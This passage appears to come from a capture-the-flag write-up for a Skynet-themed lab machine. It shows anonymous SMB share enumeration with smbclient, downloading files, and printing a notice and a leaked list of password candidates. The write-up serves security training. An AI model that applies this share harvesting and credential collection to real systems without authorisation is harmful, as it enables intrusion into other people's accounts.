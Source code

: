 ### SMB harvesting `anonymous` share

```bash
smbclient //$TARGET/anonymous -N
```

```bash
smb: \> ls
  .                  D        0  Thu Nov 26 17:04:00 2020
  ..                 D        0  Tue Sep 17 09:20:17 2019
  attention.txt      N      163  Wed Sep 18 05:04:59 2019
  logs               D        0  Wed Sep 18 06:42:16 2019

		9204224 blocks of size 1024. 5829088 blocks available

smb: \> get attention.txt
...

smb: \> cd logs\

smb: \> ls
  .                  D        0  Wed Sep 18 06:42:16 2019
  ..                 D        0  Thu Nov 26 17:04:00 2020
  log2.txt           N        0  Wed Sep 18 06:42:13 2019
  log1.txt           N      471  Wed Sep 18 06:41:59 2019
  log3.txt           N        0  Wed Sep 18 06:42:16 2019
		9204224 blocks of size 1024. 5829088 blocks available

smb: \> get log1.txt
```

As you can see, `log2.txt` and `log3.txt` was empty with a size of 0kB.

Let's see what inside those files.

```bash
cat attention.txt

A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson

################
cat log1.txt

cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989
terminator1988
terminator168
terminator16
terminator143
terminator13
terminator123!@#
terminator1056
terminator101
terminator10
terminator02
terminator00
roboterminator
pongterminator
manasturcaluterminator
exterminator95
exterminator200
```